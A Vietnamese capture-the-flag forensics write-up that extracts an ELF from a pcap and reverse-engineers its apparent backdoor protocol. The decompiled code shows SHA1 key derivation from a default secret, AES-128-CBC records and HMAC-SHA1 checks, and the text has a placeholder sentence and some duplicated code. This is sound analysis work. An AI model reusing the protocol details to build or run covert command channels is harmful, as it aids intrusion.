# Challenge Masks Off

## 1. Đầu vào challenge

Đầu vào challenge cung cấp 1 file `pcap`.



Thấy được chủ yếu traffic là các gói TCP, trong đó HTTP chỉ chứa một vài request nên có thể làm pivot đầu tiên. Đồng thời có một lượng traffic TCP chứa data lớn, nội dung không đọc được trực tiếp nên nghi ngờ đây là kênh truyền dữ liệu đã bị mã hóa.

Sử dụng filter `http`:

```text
http
```



Phát hiện request tải file `/ic2kp` từ server. Export file này ra để phân tích tiếp. Xác nhận file `ic2kp` là ELF 64-bit.



## 2. Phân tích binary

Sử dụng IDA để decompile và tìm đến hàm main() trước.



Từ `main` thấy được chương trình nhận tham số bằng `getopt`, trong đó `s` là secret, `p` là port, `c` là host để connect. Khi lần theo case `s` thì thấy nếu dùng chuỗi mặc định `S3cr3tP@ss`.

Điều này cho thấy binary không chỉ tạo kết nối mạng mà còn có cơ chế xác thực/mã hóa bằng secret. Vì vậy có thể dùng chuỗi `S3cr3tP@ss` làm key để phân tích tiếp phần traffic TCP bị mã hóa.



## 3. Tiếp tục tìm logic encrypt/decrypt

Từ ... thấy được nơi ... gọi đầu tiên.



### 3.1. `sub_1788` - wrapper đọc đủ byte từ socket

```c
__int64 __fastcall sub_1788(int fd, char *buf, unsigned __int64 a3, int a4)
{
  unsigned __int64 v7; // rbx
  int v8; // eax
  unsigned int v9; // edx
  if ( a3 )
  {
    v7 = 0;
    while ( 1 )
    {
      v8 = recv(fd, buf, a3 - v7, a4);
      v9 = v8;
      if ( !v8 )
      {
        dword_E6C0 = -2;
        return v9;
      }
      if ( v8 < 0 )
        break;
      v7 += v8;
      buf += v8;
      if ( a3 <= v7 )
      {
        dword_E6C0 = -6;
        return 1;
      }
    }
    dword_E6C0 = -1;
    return 0;
  }
  else
  {
    dword_E6C0 = -6;
    return 1;
  }
}
```

#### 3.1.1. `sub_1788` gọi `recv()` trong vòng lặp

```c
v8 = recv(fd, buf, a3 - v7, a4);
v9 = v8;
if (!v8) {
    dword_E6C0 = -2;
    return v9;
}
if (v8 < 0)
    break;
```

Phân tích: Tham số a3 là số byte cần đọc, v7 là tổng số byte đã đọc. Mỗi vòng lặp, recv chỉ đọc phần còn thiếu a3 - v7. Nếu recv trả 0 thì peer đóng kết nối; nếu âm thì lỗi.

Đây là wrapper đọc stream TCP, chưa có dấu hiệu decrypt.

#### 3.1.2. Hàm chỉ trả thành công khi đã nhận đủ length yêu cầu

```c
v7 += v8;
buf += v8;
if (a3 <= v7) {
    dword_E6C0 = -6;
    return 1;
}
```

Phân tích: Sau mỗi lần recv thành công, hàm cộng dồn số byte đã nhận và tăng con trỏ buffer. Khi v7 đạt a3, hàm trả 1. Điều này đúng với hành vi recv_exact/read_exact trong các protocol tự định dạng record.

#### 3.1.3. Xrefs tới `recv_exact` quyết định thứ tự phân tích tiếp theo

```c
xrefs to sub_1788:
sub_1818+2C    call sub_1788
sub_1818+F6    call sub_1788
sub_1CE1+1E    call sub_1788
```



Phân tích: Có hai nhóm caller: sub_1CE1 gọi recv_exact một lần, còn sub_1818 gọi hai lần. Hàm gọi một lần ở đầu session thường là handshake;

Nên phân tích sub_1CE1 trước để hiểu handshake và context, sau đó mới đọc sub_1818.

### 3.2. `sub_1CE1` - handshake và xác thực đầu session

```c
if ((unsigned int)sub_1788(fd, (char *)&xmmword_E6E0, 0x28u, 0) == 1) {
    si128 = _mm_load_si128((const __m128i *)&xmmword_E6E0);
    v12 = _mm_loadu_si128((const __m128i *)&xmmword_E6F4);
    v13 = dword_E704;
    sub_1385(&unk_F720, a2, &v12, v2, v3, v4, si128.m128i_i64[0], si128.m128i_i64[1], dword_E6F0);
    ((void (__fastcall *)(void *, __int64, __int128 *, __int64, __int64, __int64))sub_1385)(
      &unk_E220,
      a2,
      &v11,
      v8,
      v9,
      v10);
    if ( (unsigned int)sub_1818(fd) == 1 )
    {
      if ( v14 == 16 && (v5 = memcmp(&xmmword_E6E0, &unk_E170, 0x10u)) == 0 )
      {
        if ( (unsigned int)sub_155F(fd) == 1 )
        {
          dword_E6C0 = -6;
          return 1;
        }
      }
      else
      {
        dword_E6C0 = -3;
        return 0;
      }
    }
  }
  return v5;
}
```

#### 3.2.1. 40 byte handshake được tách thành hai phần 20 byte

**Evidence / code trích dẫn:**

```c
si128 = _mm_load_si128((const __m128i *)&xmmword_E6E0);
v12 = _mm_loadu_si128((const __m128i *)&xmmword_E6F4);
v13 = dword_E704;
```

Phân tích: E6F4 = E6E0 + 0x14 và E704 = E6E0 + 0x24. Như vậy vùng E6E0..E6F3 là 20 byte đầu, vùng E6F4..E707 là 20 byte sau. Cách tách 0x14 byte này khớp với salt SHA1/HMAC được dùng ở hàm sub_1385.

Kết luận ý này: Handshake 40 byte = salt_1 || salt_2, mỗi salt dài 20 byte.

#### 3.2.2. Hai salt được đưa cùng secret vào `sub_1385` để tạo hai crypto context

```c
sub_1385(&unk_F720, a2, &v12, ...);
sub_1385(&unk_E220, a2, &v11, ...);
```

Phân tích: a2 là secret truyền từ session handler xuống. sub_1385 được gọi hai lần với cùng secret nhưng salt/context khác nhau. Điều này cho thấy protocol dùng hai context riêng cho hai chiều giao tiếp: một context gửi và một context nhận.

sub_1385 là hàm khởi tạo crypto context; cần phân tích tiếp để biết key/IV/HMAC được derive ra sao.

#### 3.2.3. Sau khi init context, chương trình nhận một encrypted record để auth

```c
if ((unsigned int)sub_1818(fd) == 1) {
    if (v14 == 16 && (v5 = memcmp(&xmmword_E6E0, &unk_E170, 0x10u)) == 0) {
        if ((unsigned int)sub_155F(fd) == 1) {
            dword_E6C0 = -6;
            return 1;
        }
    }
}
```

Phân tích: sub_1818 được gọi sau khi context đã tạo, nên đây là encrypted_recv. Plaintext sau decrypt phải dài 16 byte và khớp constant tại unk_E170. Nếu đúng, sub_155F gửi phản hồi mã hóa lại. Đây là cơ chế mutual authentication của protocol.

### 3.3. `sub_1385` - derive key, IV và HMAC context

```c
_BYTE *__fastcall sub_1385(__int64 a1, char *a2, __m128i *a3)
{
  _BYTE *result; // rax
  __int128 *v5; // rdx
  unsigned __int64 v6[21]; // [rsp+0h] [rbp-A8h] BYREF
  sub_3D0A(v6);
  sub_60BD(v6, a2, strlen(a2));
  sub_60BD(v6, a3->m128i_i8, 0x14u);
  sub_6237(v6, &xmmword_E6E0);
  sub_1DEA(a1, &xmmword_E6E0, 128);
  *(__m128i *)(a1 + 1032) = _mm_loadu_si128(a3);
  memset((void *)(a1 + 1048), 54, 64);
  result = (_BYTE *)(a1 + 1112);
  memset((void *)(a1 + 1112), 92, 64);
  v5 = &xmmword_E6E0;
  do
  {
    *(result - 64) ^= *(_BYTE *)v5;
    *result ^= *(_BYTE *)v5;
    v5 = (__int128 *)((char *)v5 + 1);
    ++result;
  }
  while ( v5 != &xmmword_E6F4 );
  *(_QWORD *)(a1 + 1176) = 0;
  return result;
}
```

#### 3.3.1. Hash input là secret nối với salt 20 byte

**Evidence / code trích dẫn:**

```c
sub_3D0A(v6);
sub_60BD(v6, a2, strlen(a2));
sub_60BD(v6, a3->m128i_i8, 0x14u);
sub_6237(v6, &xmmword_E6E0);
```

Phân tích: Các hàm có pattern init/update/final của hash. Lần update thứ nhất dùng secret a2 với length strlen(a2). Lần update thứ hai dùng a3 với length 0x14 = 20 byte. Kết quả được ghi vào xmmword_E6E0. Output 20 byte phù hợp với SHA1.

digest = SHA1(secret || salt).

#### 3.3.2. Digest được dùng để khởi tạo AES-128 key schedule

**Evidence / code trích dẫn:**

```c
sub_1DEA(a1, &xmmword_E6E0, 128);
```

Phân tích: Tham số 128 là key size 128 bit. Kết hợp với các bảng AES trong binary như S-box/Rcon/T-table, sub_1DEA là hàm khởi tạo AES key schedule. Vì input là digest tại xmmword_E6E0, key AES lấy từ 16 byte đầu của digest.

Kết luận ý này: AES key = SHA1(secret || salt)[0:16].

#### 3.3.3. IV ban đầu lấy từ 16 byte đầu của salt

**Evidence / code trích dẫn:**

```c
*(__m128i *)(a1 + 1032) = _mm_loadu_si128(a3);
```

Phân tích: _mm_loadu_si128(a3) load 16 byte đầu từ salt. Vùng a1+1032 nằm trong crypto context và về sau được dùng để XOR khi encrypt/decrypt CBC.

IV = salt[0:16].

#### 3.3.4. Tạo ipad/opad cho HMAC-SHA1

```c
memset((void *)(a1 + 1048), 54, 64);
memset((void *)(a1 + 1112), 92, 64);
...
*(result - 64) ^= *(_BYTE *)v5;
*result ^= *(_BYTE *)v5;
...
while (v5 != &xmmword_E6F4);
```

Phân tích: 54 decimal = 0x36 và 92 decimal = 0x5c, đây là hai hằng số ipad/opad của HMAC. Vòng lặp chạy 20 byte từ E6E0 đến E6F4 và XOR digest vào cả hai buffer. Đây là cách chuẩn bị HMAC key block.

HMAC key = digest = SHA1(secret || salt).

#### 3.3.5. Khởi tạo sequence counter

```c
*(_QWORD *)(a1 + 1176) = 0;
```

Phân tích: Offset a1+1176 được reset về 0. Trong sub_1818/sub_155F, giá trị sequence này được đưa vào HMAC và tăng sau mỗi record hợp lệ. Mỗi crypto context có sequence counter riêng, bắt đầu từ 0.

### 3.4. `sub_1818` - nhận và giải mã encrypted record

```c
__int64 __fastcall sub_1818(int fd, void *a2, int *a3)
{
  unsigned int v4; // r13d
  int *v6; // r13
  const __m128i *v7; // r15
  __int128 *v8; // rax
  int v9; // r14d
  const __m128i *v10; // roff
  __int128 *v11; // rdx
  const __m128i *v12; // rax
  __m128i si128; // [rsp+0h] [rbp-118h] BYREF
  void *dest; // [rsp+10h] [rbp-108h]
  unsigned __int64 v15; // [rsp+18h] [rbp-100h]
  _BYTE v16[128]; // [rsp+20h] [rbp-F8h] BYREF
  char s2[32]; // [rsp+A0h] [rbp-78h] BYREF
  __m128i s1; // [rsp+C0h] [rbp-58h] BYREF
  __int32 v19; // [rsp+D0h] [rbp-48h]
  dest = a2;
  v4 = 0;
  if ( (unsigned int)sub_1788(fd, (char *)&xmmword_E6E0, 0x10u, 0) == 1 )
  {
    v6 = (int *)&xmmword_E6E0;
    si128 = _mm_load_si128((const __m128i *)&xmmword_E6E0);
    sub_2FAD(&unk_E220, &xmmword_E6E0);
    v7 = (const __m128i *)&xmmword_E6E0;
    v8 = &xmmword_E628;
    do
    {
      *(_BYTE *)v6 ^= *(_BYTE *)v8;
      v6 = (int *)((char *)v6 + 1);
      v8 = (__int128 *)((char *)v8 + 1);
    }
    while ( v6 != dword_E6F0 );
    *a3 = BYTE1(xmmword_E6E0) + ((unsigned __int8)xmmword_E6E0 << 8);
    xmmword_E6E0 = (__int128)_mm_load_si128(&si128);
    if ( (unsigned int)(*a3 - 1) > 0xFFF )
    {
      dword_E6C0 = -4;
      return 0;
    }
    else
    {
      v9 = *a3 + 2;
      if ( ((*(_BYTE *)a3 + 2) & 0xF) != 0 )
        v9 = v9 - (v9 & 0xF) + 16;
      v15 = v9 + 4;
      v4 = sub_1788(fd, (char *)dword_E6F0, v15, 0);
      if ( v4 == 1 )
      {
        v10 = (const __m128i *)((char *)&xmmword_E6E0 + v9);
        s1 = _mm_loadu_si128(v10);
        v19 = v10[1].m128i_i32[0];
        v10->m128i_i8[0] = 0;
        *((_BYTE *)&xmmword_E6E0 + v9 + 1) = 0;
        *((_BYTE *)&xmmword_E6E0 + v9 + 2) = 0;
        *((_BYTE *)&xmmword_E6E0 + v9 + 3) = qword_E6B8;
        si128.m128i_i64[0] = (__int64)v16;
        sub_3D0A(v16);
        sub_60BD((unsigned __int64 *)si128.m128i_i64[0], byte_E638, 0x40u);
        sub_60BD((unsigned __int64 *)si128.m128i_i64[0], (char *)&xmmword_E6E0, v15);
        sub_6237((unsigned __int64 *)si128.m128i_i64[0], s2);
        sub_3D0A(si128.m128i_i64[0]);
        sub_60BD((unsigned __int64 *)si128.m128i_i64[0], byte_E678, 0x40u);
        sub_60BD((unsigned __int64 *)si128.m128i_i64[0], s2, 0x14u);
        sub_6237((unsigned __int64 *)si128.m128i_i64[0], s2);
        if ( !memcmp(&s1, s2, 0x14u) )
        {
          ++qword_E6B8;
          do
          {
            si128 = _mm_load_si128(v7);
            sub_2FAD(&unk_E220, v7);
            v11 = &xmmword_E628;
            v12 = v7;
            do
            {
              v12->m128i_i8[0] ^= *(_BYTE *)v11;
              v12 = (const __m128i *)((char *)v12 + 1);
              v11 = (__int128 *)((char *)v11 + 1);
            }
            while ( v11 != (__int128 *)byte_E638 );
            xmmword_E628 = (__int128)_mm_load_si128(&si128);
            ++v7;
          }
          while ( v7 != (const __m128i *)&dword_E6F0[4 * ((unsigned int)(v9 - 1) >> 4)] );
          memcpy(dest, (char *)&xmmword_E6E0 + 2, *a3);
          dword_E6C0 = -6;
        }
        else
        {
          dword_E6C0 = -5;
          return 0;
        }
      }
      else
      {
        return 0;
      }
    }
  }
  return v4;
}
```

#### 3.4.1. Đọc 16 byte đầu của record

```c
if ((unsigned int)sub_1788(fd, (char *)&xmmword_E6E0, 0x10u, 0) == 1) {
    if ( (unsigned int)sub_1788(fd, (char *)&xmmword_E6E0, 0x10u, 0) == 1 )
  {
    v6 = (int *)&xmmword_E6E0;
    si128 = _mm_load_si128((const __m128i *)&xmmword_E6E0);
    sub_2FAD(&unk_E220, &xmmword_E6E0);
    v7 = (const __m128i *)&xmmword_E6E0;
    v8 = &xmmword_E628;
    do
    {
      *(_BYTE *)v6 ^= *(_BYTE *)v8;
      v6 = (int *)((char *)v6 + 1);
      v8 = (__int128 *)((char *)v8 + 1);
    }
    while ( v6 != dword_E6F0 );
    *a3 = BYTE1(xmmword_E6E0) + ((unsigned __int8)xmmword_E6E0 << 8);
    xmmword_E6E0 = (__int128)_mm_load_si128(&si128);
    if ( (unsigned int)(*a3 - 1) > 0xFFF )
    {
      dword_E6C0 = -4;
      return 0;
    }
    else
    {
      v9 = *a3 + 2;
      if ( ((*(_BYTE *)a3 + 2) & 0xF) != 0 )
        v9 = v9 - (v9 & 0xF) + 16;
      v15 = v9 + 4;
      v4 = sub_1788(fd, (char *)dword_E6F0, v15, 0);
      if ( v4 == 1 )
      {
        v10 = (const __m128i *)((char *)&xmmword_E6E0 + v9);
        s1 = _mm_loadu_si128(v10);
        v19 = v10[1].m128i_i32[0];
        v10->m128i_i8[0] = 0;
        *((_BYTE *)&xmmword_E6E0 + v9 + 1) = 0;
        *((_BYTE *)&xmmword_E6E0 + v9 + 2) = 0;
        *((_BYTE *)&xmmword_E6E0 + v9 + 3) = qword_E6B8;
        si128.m128i_i64[0] = (__int64)v16;
        sub_3D0A(v16);
        sub_60BD((unsigned __int64 *)si128.m128i_i64[0], byte_E638, 0x40u);
        sub_60BD((unsigned __int64 *)si128.m128i_i64[0], (char *)&xmmword_E6E0, v15);
        sub_6237((unsigned __int64 *)si128.m128i_i64[0], s2);
        sub_3D0A(si128.m128i_i64[0]);
        sub_60BD((unsigned __int64 *)si128.m128i_i64[0], byte_E678, 0x40u);
        sub_60BD((unsigned __int64 *)si128.m128i_i64[0], s2, 0x14u);
        sub_6237((unsigned __int64 *)si128.m128i_i64[0], s2);
        if ( !memcmp(&s1, s2, 0x14u) )
        {
          ++qword_E6B8;
          do
          {
            si128 = _mm_load_si128(v7);
            sub_2FAD(&unk_E220, v7);
            v11 = &xmmword_E628;
            v12 = v7;
            do
            {
              v12->m128i_i8[0] ^= *(_BYTE *)v11;
              v12 = (const __m128i *)((char *)v12 + 1);
              v11 = (__int128 *)((char *)v11 + 1);
            }
            while ( v11 != (__int128 *)byte_E638 );
            xmmword_E628 = (__int128)_mm_load_si128(&si128);
            ++v7;
          }
          while ( v7 != (const __m128i *)&dword_E6F0[4 * ((unsigned int)(v9 - 1) >> 4)] );
          memcpy(dest, (char *)&xmmword_E6E0 + 2, *a3);
          dword_E6C0 = -6;
        }
        else
        {
          dword_E6C0 = -5;
          return 0;
        }
      }
      else
      {
        return 0;
      }
    }
  }
```

Phân tích: 0x10 = 16 byte, đúng kích thước block AES. Record mã hóa luôn bắt đầu bằng ít nhất một block ciphertext. Việc đọc block đầu riêng cho phép decrypt lấy length trước khi biết record dài bao nhiêu.

sub_1818 đọc record theo block, không đọc theo packet.

#### 3.4.2. Decrypt block đầu rồi XOR với IV để lấy plaintext block

```c
si128 = _mm_load_si128((const __m128i *)&xmmword_E6E0);
sub_2FAD(&unk_E220, &xmmword_E6E0);
...
*(_BYTE *)v6 ^= *(_BYTE *)v8;
```

Phân tích: si128 lưu ciphertext block đầu. sub_2FAD xử lý block với context unk_E220, sau đó kết quả được XOR với xmmword_E628. Đây là công thức CBC decrypt: plaintext_block = AES_decrypt(cipher_block) XOR IV.

sub_2FAD là AES decrypt block; mode là AES-CBC.

#### 3.4.3. Hai byte đầu sau decrypt là length dạng big-endian

```c
*a3 = BYTE1(xmmword_E6E0) + ((unsigned __int8)xmmword_E6E0 << 8);
if ((unsigned int)(*a3 - 1) > 0xFFF) {
    dword_E6C0 = -4;
    return 0;
}
```

Phân tích: Length được tính bằng byte0 << 8 | byte1, tức uint16 big-endian. Check (*a3 - 1) > 0xFFF đồng nghĩa plaintext length hợp lệ trong khoảng 1..0x1000.

Plaintext record có prefix 2 byte length.

#### 3.4.4. Tính ciphertext length và đọc phần còn lại + MAC

```c
v9 = *a3 + 2;
if (((*(_BYTE *)a3 + 2) & 0xF) != 0)
    v9 = v9 - (v9 & 0xF) + 16;
v15 = v9 + 4;
v4 = sub_1788(fd, (char *)dword_E6F0, v15, 0);
```

Phân tích: v9 = align16(length + 2), tức ciphertext length sau padding. Hàm đã đọc trước 16 byte đầu, nên số byte còn lại cần đọc là (v9 - 16) + 20 byte MAC = v9 + 4. Đây là bằng chứng MAC dài 20 byte.

Record = ciphertext dài align16(length+2) || MAC 20 byte.

#### 3.4.5. Verify HMAC-SHA1 trên ciphertext || sequence

**Evidence / code trích dẫn:**

```c
v10 = (const __m128i *)((char *)&xmmword_E6E0 + v9);
s1 = _mm_loadu_si128(v10);
v19 = v10[1].m128i_i32[0];
...
*((_BYTE *)&xmmword_E6E0 + v9 + 3) = qword_E6B8;
sub_60BD(..., byte_E638, 0x40u);
sub_60BD(..., (char *)&xmmword_E6E0, v15);
...
sub_60BD(..., byte_E678, 0x40u);
sub_60BD(..., s2, 0x14u);
...
if (!memcmp(&s1, s2, 0x14u))
```

Phân tích: MAC 20 byte được lấy tại buffer + v9. Trước khi tính HMAC, chương trình ghi 4 byte sequence vào ngay sau ciphertext, dạng 00 00 00 seq. Sau đó tính SHA1 với ipad/opad đã chuẩn bị trong sub_1385. Kết quả 0x14 byte được so sánh với MAC đi kèm record.

MAC = HMAC-SHA1(ciphertext || sequence).

#### 3.4.6. Nếu HMAC đúng thì decrypt toàn bộ ciphertext và copy plaintext ra output

**Evidence / code trích dẫn:**

```c
++qword_E6B8;
do {
    si128 = _mm_load_si128(v7);
    sub_2FAD(&unk_E220, v7);
    ...
    v12->m128i_i8[0] ^= *(_BYTE *)v11;
    ...
    xmmword_E628 = (__int128)_mm_load_si128(&si128);
    ++v7;
} while (...);
memcpy(dest, (char *)&xmmword_E6E0 + 2, *a3);
```

Phân tích: Sau khi MAC hợp lệ, sequence tăng. Mỗi block được AES decrypt, XOR với IV/current CBC state, rồi IV được cập nhật bằng ciphertext block cũ. Cuối cùng bỏ 2 byte length và copy đúng *a3 byte plaintext ra output buffer.

sub_1818 là encrypted_recv/decrypt_record.

### 3.5. `sub_155F` - mã hóa plaintext và gửi encrypted record

```c
__int64 __fastcall sub_155F(int fd, char *a2, unsigned int a3)
{
  __int64 result; // rax
  int v4; // r12d
  const __m128i *v5; // rbp
  __int128 *v6; // rdx
  const __m128i *v7; // rax
  unsigned __int64 v8[16]; // [rsp-80h] [rbp-D8h] BYREF
  char v9[88]; // [rsp+0h] [rbp-58h] BYREF
  if ( a3 - 1 <= 0xFFF )
  {
    LOBYTE(xmmword_E6E0) = BYTE1(a3);
    BYTE1(xmmword_E6E0) = a3;
    if ( a3 >= 8 )
    {
      *(_QWORD *)((char *)&xmmword_E6E0 + 2) = *(_QWORD *)a2;
      *(_QWORD *)((char *)&xmmword_E6E0 + a3 - 6) = *(_QWORD *)&a2[a3 - 8];
      qmemcpy(
        (void *)(((unsigned __int64)&xmmword_E6E0 + 10) & 0xFFFFFFFFFFFFFFF8LL),
        (const void *)(a2 - ((char *)&xmmword_E6E0 - (((unsigned __int64)&xmmword_E6E0 + 10) & 0xFFFFFFFFFFFFFFF8LL) + 2)),
        8LL
      * ((a3
        + (unsigned int)((unsigned int)&xmmword_E6E0
                       - (((unsigned __int64)&xmmword_E6E0 + 10) & 0xFFFFFFFFFFFFFFF8LL)
                       + 2)) >> 3));
    }
    else if ( (a3 & 4) != 0 )
    {
      *(_DWORD *)((char *)&xmmword_E6E0 + 2) = *(_DWORD *)a2;
      *(_DWORD *)((char *)&xmmword_E6E0 + a3 - 2) = *(_DWORD *)&a2[a3 - 4];
    }
    else
    {
      BYTE2(xmmword_E6E0) = *a2;
      if ( (a3 & 2) != 0 )
        *(_WORD *)((char *)&xmmword_E6E0 + a3) = *(_WORD *)&a2[a3 - 2];
    }
    v4 = a3 + 2;
    if ( (((_BYTE)a3 + 2) & 0xF) != 0 )
      v4 = v4 - (((_BYTE)a3 + 2) & 0xF) + 16;
    v5 = (const __m128i *)&xmmword_E6E0;
    do
    {
      v6 = &xmmword_FB28;
      v7 = v5;
      do
      {
        v7->m128i_i8[0] ^= *(_BYTE *)v6;
        v7 = (const __m128i *)((char *)v7 + 1);
        v6 = (__int128 *)((char *)v6 + 1);
      }
      while ( v6 != (__int128 *)byte_FB38 );
      sub_2267(&unk_F720, v5);
      xmmword_FB28 = (__int128)_mm_load_si128(v5++);
    }
    while ( v5 != (const __m128i *)&dword_E6F0[4 * ((unsigned int)(v4 - 1) >> 4)] );
    *((_BYTE *)&xmmword_E6E0 + v4) = 0;
    *((_BYTE *)&xmmword_E6E0 + v4 + 1) = 0;
    *((_BYTE *)&xmmword_E6E0 + v4 + 2) = 0;
    *((_BYTE *)&xmmword_E6E0 + v4 + 3) = qword_FBB8;
    sub_3D0A(v8);
    sub_60BD(v8, byte_FB38, 0x40u);
    sub_60BD(v8, (char *)&xmmword_E6E0, v4 + 4);
    sub_6237(v8, v9);
    sub_3D0A(v8);
    sub_60BD(v8, byte_FB78, 0x40u);
    sub_60BD(v8, v9, 0x14u);
    sub_6237(v8, (_BYTE *)&xmmword_E6E0 + v4);
    ++qword_FBB8;
    result = sub_14E3(fd, &xmmword_E6E0);
    if ( (_DWORD)result == 1 )
      dword_E6C0 = -6;
    else
      return 0;
  }
  else
  {
    dword_E6C0 = -4;
    return 0;
  }
  return result;
}
```

#### 3.5.1. Kiểm tra length, ghi 2 byte length và copy plaintext

```c
if ( a3 - 1 <= 0xFFF )
  {
    LOBYTE(xmmword_E6E0) = BYTE1(a3);
    BYTE1(xmmword_E6E0) = a3;
    if ( a3 >= 8 )
    {
      *(_QWORD *)((char *)&xmmword_E6E0 + 2) = *(_QWORD *)a2;
      *(_QWORD *)((char *)&xmmword_E6E0 + a3 - 6) = *(_QWORD *)&a2[a3 - 8];
      qmemcpy(
        (void *)(((unsigned __int64)&xmmword_E6E0 + 10) & 0xFFFFFFFFFFFFFFF8LL),
        (const void *)(a2 - ((char *)&xmmword_E6E0 - (((unsigned __int64)&xmmword_E6E0 + 10) & 0xFFFFFFFFFFFFFFF8LL) + 2)),
        8LL
      * ((a3
        + (unsigned int)((unsigned int)&xmmword_E6E0
                       - (((unsigned __int64)&xmmword_E6E0 + 10) & 0xFFFFFFFFFFFFFFF8LL)
                       + 2)) >> 3));
    }
    else if ( (a3 & 4) != 0 )
    {
      *(_DWORD *)((char *)&xmmword_E6E0 + 2) = *(_DWORD *)a2;
      *(_DWORD *)((char *)&xmmword_E6E0 + a3 - 2) = *(_DWORD *)&a2[a3 - 4];
